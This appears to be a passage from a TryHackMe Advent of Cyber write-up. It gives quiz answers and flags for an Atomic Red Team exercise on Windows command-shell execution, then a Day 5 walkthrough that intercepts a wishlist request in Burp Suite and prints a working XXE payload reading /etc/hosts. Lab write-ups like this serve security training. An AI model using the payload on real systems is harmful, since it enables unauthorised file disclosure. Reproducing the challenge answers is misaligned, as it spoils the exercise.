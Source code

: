 **Questions:**
1. *What was the flag found in the .txt file that is found in the same directory as the PhishingAttachment.xslm artefact?*

Answer: THM{GlitchTestingForSpearphishing}. It can be found in `C:\Users\Administrator\AppData\Local\Temp\` as `PhishingAttachment.txt`

2. *What ATT&CK technique ID would be our point of interest?*

Answer: T1059. This is the MITRE ATT&CK ID for scripting interpreter.

3. *What ATT&CK subtechnique ID focuses on the Windows Command Shell?*

Answer: T1059.003. This is the ID for command shell and can be found on Google.

4. *What is the name of the Atomic Test to be simulated?*

Answer: Simulate BlackByte Ransomware Print Bombing. With `Invoke-AtomicTest T1059.003 -ShowDetails`, this name can be seen along with `Suspicious Execution via Windows Command Shell`.

5. *What is the name of the file used in the test?*

Answer: Wareville_Ransomware.txt. This can also be seen from running the previous .

6. *What is the flag found from this Atomic Test?*

Answer: THM{R2xpdGNoIGlzIG5vdCB0aGUgZW5lbXk=}. Running `Invoke-AtomicTest T1059.003` creates a PDF which consists this flag. This is encoded in base64 and decodes to say "Glitch is not the enemy".

**Concepts:**
- MITRE ATT&CK which is a popular framework for understanding the different techniques and tactics that threat actors perform.

# Day 5

**Challenge:**
- The website given in the challenge allows users to request Christmas wishes by clicking on an item and adding it to the wish list.
- While checking out, after filling in address, the item is shown to be saved as Wish #. This feature can be exploited.
- To intercept this request, a browser can be opened in Burp Suite, and the request made while adding to wish list can be sent to Intruder. 
- Now, the XML in `/wishlist.php` which is
```xml
<wishlist> 
  <user_id> 
    1 
  </user_id> 
  <item> 
    <product_id> 
      1 
    </product_id>
  </item> 
</wishlist
```
can be changed to have an XXE payload which is
```xml
<!--?xml version="1.0" ?--> 
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]> 
<wishlist> 
  <user_id>
    1
  </user_id> 
  <item> 
    <product_id>
      &payload;
    </product_id> 
  </item> 
</wishlist>
```
